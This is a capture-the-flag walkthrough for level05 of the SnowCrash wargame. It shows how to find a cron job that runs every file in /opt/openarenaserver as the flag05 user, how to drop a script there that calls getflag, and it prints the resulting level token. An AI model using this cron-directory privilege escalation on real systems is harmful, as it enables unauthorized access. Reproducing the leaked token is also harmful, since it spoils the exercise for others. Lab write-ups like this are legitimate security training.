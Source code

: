 # 1st Step
  
When we are log as level05 we automatically receive a message : `You have new mail.`
After some research we can found the file `level05` at `/var/mail/level05`  
```
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:~$
```  
We can see that every 2min, `/usr/sbin/openarenaserver` is execute !  
```
level05@SnowCrash:~$ ls -la /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
level05@SnowCrash:~$
```
***Notes** : Again, the owner of the file is `flag05`*  
Let's take a look at the code inside  
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$
```
Seems that this script will execute every files in `/opt/openarenaserver` then delete them.  
Cause this script is execute by `flag05` we should try to execute `getflag` !  

# 2nd Step
Now we can try to execute `getflag` with `/usr/sbin/openarenaserver`:  
```
level05@SnowCrash:~$ echo "/bin/getflag > /tmp/my_file" > /opt/openarenaserver/my_file
level05@SnowCrash:~$ cat /opt/openarenaserver/my_file
/bin/getflag > /tmp/my_file
level05@SnowCrash:~$
```  
Wait few minutes (2 max)  
```
level05@SnowCrash:~$ cat /tmp/my_file
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:~$ su level06
Password:
level06@SnowCrash:~$
```  
level05 passed !
